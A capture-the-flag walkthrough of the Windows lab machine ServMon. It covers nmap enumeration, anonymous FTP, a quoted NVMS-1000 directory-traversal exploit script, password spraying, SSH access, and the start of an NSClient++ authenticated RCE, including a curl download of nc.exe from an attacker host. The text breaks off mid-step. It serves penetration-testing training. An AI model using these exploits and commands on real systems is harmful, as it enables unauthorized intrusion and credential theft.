






<br />


<br />

OS -> Windows.

Difficulty -> Easy.

<br />

# Introduction:

<br />


<br />

# Enumeration:

<br />

We start by running the typical `nmap` scan to see which ports are open:

<br />

```bash
❯ nmap -p- 10.10.10.184 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-19 15:55 CEST
Nmap scan report for 10.10.10.184
Host is up (0.044s latency).
Not shown: 65177 closed tcp ports (reset), 341 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_02-28-22  07:35PM       <DIR>          Users
22/tcp    open  ssh           OpenSSH for_Windows_8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 c7:1a:f6:81:ca:17:78:d0:27:db:cd:46:2a:09:2b:54 (RSA)
|   256 3e:63:ef:3b:6e:3e:4a:90:f3:4c:02:e9:40:67:2e:42 (ECDSA)
|_  256 5a:48:c8:cd:39:78:21:29:ef:fb:ae:82:1d:03:ad:af (ED25519)
80/tcp    open  http
|_http-title: Site doesn't have a title (text/html).
| fingerprint-strings: 
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL: 
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5666/tcp  open  tcpwrapped
6063/tcp  open  tcpwrapped
6699/tcp  open  tcpwrapped
8443/tcp  open  ssl/https-alt
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2020-01-14T13:24:20
|_Not valid after:  2021-01-13T13:24:20
|_ssl-date: TLS randomness does not represent time
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|_    Location: /index.html
| http-title: NSClient++
|_Requested resource was /index.html
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port80-TCP:V=7.94SVN%I=7%D=4/19%Time=6803AB57%P=x86_64-pc-linux-gnu%r(N
SF:ULL,6B,"HTTP/1\.1\x20408\x20Request\x20Timeout\r\nContent-type:\x20text
SF:/html\r\nContent-Length:\x200\r\nConnection:\x20close\r\nAuthInfo:\x20\
SF:r\n\r\n")%r(GetRequest,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20
SF:text/html\r\nContent-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo
SF::\x20\r\n\r\n\xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x
SF:20XHTML\x201\.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml
SF:1/DTD/xhtml1-transitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w
SF:3\.org/1999/xhtml\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x
SF:20\x20\x20\x20<script\x20type=\"text/javascript\">\r\n\x20\x20\x20\x20\
SF:x20\x20\x20\x20window\.location\.href\x20=\x20\"Pages/login\.htm\";\r\n
SF:\x20\x20\x20\x20</script>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\
SF:n")%r(HTTPOptions,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20text/
SF:html\r\nContent-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo:\x20
SF:\r\n\r\n\xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XHT
SF:ML\x201\.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/DTD
SF:/xhtml1-transitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3\.or
SF:g/1999/xhtml\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x20\x2
SF:0\x20\x20<script\x20type=\"text/javascript\">\r\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20window\.location\.href\x20=\x20\"Pages/login\.htm\";\r\n\x20\
SF:x20\x20\x20</script>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n")%r
SF:(RTSPRequest,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20text/html\
SF:r\nContent-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo:\x20\r\n\
SF:r\n\xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XHTML\x2
SF:01\.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/DTD/xhtm
SF:l1-transitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3\.org/199
SF:9/xhtml\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x20\x20\x20
SF:\x20<script\x20type=\"text/javascript\">\r\n\x20\x20\x20\x20\x20\x20\x2
SF:0\x20window\.location\.href\x20=\x20\"Pages/login\.htm\";\r\n\x20\x20\x
SF:20\x20</script>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port8443-TCP:V=7.94SVN%T=SSL%I=7%D=4/19%Time=6803AB5F%P=x86_64-pc-linux
SF:-gnu%r(GetRequest,74,"HTTP/1\.1\x20302\r\nContent-Length:\x200\r\nLocat
SF:ion:\x20/index\.html\r\n\r\n\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\
SF:0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:\0")%r(HTTPOptions,36,"HTTP/1\.1\x20404\r\nContent-Length:\x2018\r\n\r\
SF:nDocument\x20not\x20found")%r(FourOhFourRequest,36,"HTTP/1\.1\x20404\r\
SF:nContent-Length:\x2018\r\n\r\nDocument\x20not\x20found")%r(RTSPRequest,
SF:36,"HTTP/1\.1\x20404\r\nContent-Length:\x2018\r\n\r\nDocument\x20not\x2
SF:0found")%r(SIPOptions,36,"HTTP/1\.1\x20404\r\nContent-Length:\x2018\r\n
SF:\r\nDocument\x20not\x20found");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-04-19T13:56:01
|_  start_date: N/A
|_clock-skew: -1m29s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 146.43 seconds
```

<br />

Open Ports:

- `Port 21` -> ftp

- `Port 22` -> ssh 

- `Port 80` -> http 

- `Port 135` -> rpc

- `Port 139` -> netbios 

- `Port 445` -> smb 

- `Ports 5666,6063,6699` -> tcpwrapped

- `Port 8443` -> https / nsclient++

- `Ports 49***` -> rpc

<br />

# FTP Enumeration: -> Port 21

<br />

Since anonymous `FTP` access is enabled, we log in and begin exploring:

<br />

```bash
ftp> ls
229 Entering Extended Passive Mode (|||49688|)
125 Data connection already open; Transfer starting.
02-28-22  07:35PM       <DIR>          Users
226 Transfer complete.
```

<br />

Inside the `Users` directory, we found two subdirectories:

<br />

```bash
ftp> ls
229 Entering Extended Passive Mode (|||49691|)
125 Data connection already open; Transfer starting.
02-28-22  07:36PM       <DIR>          Nadine
02-28-22  07:37PM       <DIR>          Nathan
226 Transfer complete.
```

<br />

These `names` likely represent valid Windows `users`.

Let's inspect each one:

<br />

```bash
ftp> ls
229 Entering Extended Passive Mode (|||49692|)
125 Data connection already open; Transfer starting.
02-28-22  07:36PM                  168 Confidential.txt
226 Transfer complete.
```

<br />

`Nathan's` directory contains another interesting `file`:

<br />

```bash
ftp> ls
229 Entering Extended Passive Mode (|||49696|)
125 Data connection already open; Transfer starting.
02-28-22  07:36PM                  182 Notes to do.txt
226 Transfer complete.
```

<br />

We `download` both files using `wget`:

<br />

```bash
❯ wget -r ftp://anonymous:@10.10.10.184
```

<br />

`Notes to do.txt` contains a list of tasks:

<br />

```bash
❯ cat Notes\ to\ do.txt
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Notes to do.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ 1) Change the password for NVMS - Complete
   2   │ 2) Lock down the NSClient Access - Complete
   3   │ 3) Upload the passwords
   4   │ 4) Remove public access to NVMS
   5   │ 5) Place the secret files in SharePoint
```

<br />

`Confidential.txt` may be useful later, once we gain access to the system or find a way to retrieve internal files:

<br />

```bash
❯ cat Confidential.txt
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Confidential.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ Nathan,
   2   │ 
   3   │ I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.
   4   │ 
   5   │ Regards
   6   │ 
   7   │ Nadine
```

<br />

# SMB Enumeration:

<br />

To enumerate some information about the Windows machine, we start running the typical `crackmapexec` oneliner:

<br />

```bash
❯ crackmapexec smb 10.10.10.184
SMB         10.10.10.184    445    SERVMON          [*] Windows 10.0 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
```

<br />

It's a `Windows 10` system and the domain is named `"Servmon"`.

Without valid credentials, we can't enumerate anything further:

<br />

```bash
❯ crackmapexec smb 10.10.10.184 -u '' -p '' --shares
SMB         10.10.10.184    445    SERVMON          [*] Windows 10.0 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [-] ServMon\: STATUS_ACCESS_DENIED 
SMB         10.10.10.184    445    SERVMON          [-] Error getting user: list index out of range
SMB         10.10.10.184    445    SERVMON          [-] Error enumerating shares: Error occurs while reading from remote(104)
```

<br />

# Http Enumeration: -> Port 80

<br />

Browsing the website:

<br />



<br />

It's running an application called `NVMS-1000`.

A `software` suite used to monitor camera systems.

If we search for `vulnerabilities`, we find the following:

<br />

```bash
❯ searchsploit nvms 1000
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                       |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
NVMS 1000 - Directory Traversal                                                                                                                      | hardware/webapps/47774.txt
TVT NVMS 1000 - Directory Traversal                                                                                                                  | hardware/webapps/48311.py
```

<br />

Apparently, this application is vulnerable to a `path traversal` (LFI).

Let's take a look at the Python script to understand the `vulnerability` and exploit it manually:

<br />

```python 
# Exploit Title: TVT NVMS 1000 - Directory Traversal
# Date: 2020-04-13
# Exploit Author: Mohin Paramasivam (Shad0wQu35t)
# Vendor Homepage: http://en.tvt.net.cn/
# Version : N/A
# Software Link : http://en.tvt.net.cn/products/188.html
# Original Author : Numan Türle
# CVE : CVE-2019-20085

import sys
import requests
import os
import time

if len(sys.argv) !=4:
	print "  "
	print "Usage : python exploit.py url filename outputname"
	print "Example : python exploit.py http://10.10.10.10/ windows/win.ini win.ini"
	print "	"
else:


	traversal = "../../../../../../../../../../../../../"
	filename = sys.argv[2]
	url = sys.argv[1]+traversal+filename
	outputname = sys.argv[3]
	content = requests.get(url)

	if content.status_code == 200:

		print " "
		print "Directory Traversal Succeeded"
		time.sleep(3)
		print " "
		print "Saving Output"
		os.system("touch " + outputname)
		output_write = open(outputname,"r+")
		output_write.write(content.text)
		output_write.close()

	else:

		print "Host not vulnerable to Directory Traversal!"
```

<br />

The exploitation is straightforward, nothing tricky to exploit here.

We just need to craft a `malicious` request using a `path traversal` to retrieve the desired Windows file.

Once understood, we open `Burp Suite` to craft the request:

<br />



<br />

This highlights the risk of `improper` input validation on file access endpoints. An attacker could access sensitive `internal` files, such as credentials or config files.

If we recall, the `"Confidential.txt"` file, says that Nathan has a `"Passwords.txt"` file in his directory.

What if we try to retrieve this one?

<br />



<br />

GG!! We have found several `passwords`!!

We `save` the output to a file and continue with the enumeration.

Based on the usernames found in the FTP server, we can now use `crackmapexec` to see if any of these passwords work for Nadine or Nathan `(Password Spraying)`:

<br />

```bash
❯ crackmapexec smb 10.10.10.184 -u users.txt -p passwords.txt
SMB         10.10.10.184    445    SERVMON          [*] Windows 10.0 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nathan:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nathan:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nathan:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [+] ServMon\Nadine:L1k3B1gBut7s@W0rk
```

<br />

We have a valid match -> Nadine:L1k3B1gBut7s@W0rk

<br />

## SSH - Nadine:

<br />

Port 22 is open, so we try to connect as `Nadine` with the valid password:

<br />

```bash
❯ ssh Nadine@10.10.10.184
Nadine@10.10.10.184's password:
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>whoami
servmon\nadine

nadine@SERVMON C:\Users\Nadine>type Desktop\user.txt 
f18f32659ac6e495aa59ee53fexxxxxx
```

<br />

Perfect! We have the user flag!

<br />

# Privilege Escalation: Nadine -> NT\AUTHORITY SYSTEM:

<br />

While enumerating the system we found the `NSClient++` password:

<br />

```bash
nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT
```

<br />

We also confirmed installed version of the software: `NSClient++ 0.5.2.35`

<br />

```bash
nadine@SERVMON C:\Program Files\NSClient++>nscp --version
NSClient++, Version: 0.5.2.35 2018-01-28, Platform: x64
```

<br />

Referring back to the nmap scan results, we see that `NSCLient` is running on port 8433:

<br />



<br />

When attempting to `log` in, the connection gets `blocked`:

<br />



<br />

To bypass this, we can set up a `port forwarding`, allowing our local port 8433 to serve the `NSClient++`.

<br />

```bash
sshpass -p 'L1k3B1gBut7s@W0rk' ssh nadine@10.10.10.184 -L 8443:127.0.0.1:8443
```

<br />

We can now access the `admin` panel without any issues:

<br />



<br />

## NSClient++ Authenticated RCE:

<br />

After doing some research, we find an interesting `authenticated rce` for NSClient 0.5.2.35 on [Exploit-DB](https://www.exploit-db.com/exploits/46802).

<br />

The `exploit` includes all the steps to perform the attack.

It involves enabling a `module` to execute external scripts, and then scheduling a `malicious` script to run commands on the victim system.

Let's do it:

<br />

1.- Upload nc.exe to the victim machine:

This is the easiest step, we simply serve `nc.exe` from our attacker machine and download it using `curl`:

<br />


```bash
nadine@SERVMON C:\Users\Nadine\Desktop>curl http://10.10.14.15/nc.exe -o nc.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 45272  100 45272    0     0  45272      0  0:00:01 --:--:--  0:00:01  257k

nadine@SERVMON C:\Users\Nadine\Desktop>dir 
 Volume in drive C has no label.
 Volume Serial Number is 20C1-47A1

 Directory of C:\Users\Nadine\Desktop

04/19/2025  10:34 AM    <DIR>          .
04/19/2025  10:34 AM    <DIR>          ..
04/19/2025  10:34 AM            45,272 nc.exe      
04/19/2025  09:43 AM                34 user.txt    
               2 File(s)         45,306 bytes      
               2 Dir(s)   6,342,979,584 bytes free
```

<br />

2.- Create the malicious external script:

To do this, go to the NSClient++ panel, click on `“Settings”`, then `“External Scripts”`, followed by `“Scripts”`, and finally press `“Add new”`.

Now we fill in all the required fields for the script creation:

<br />


<br />
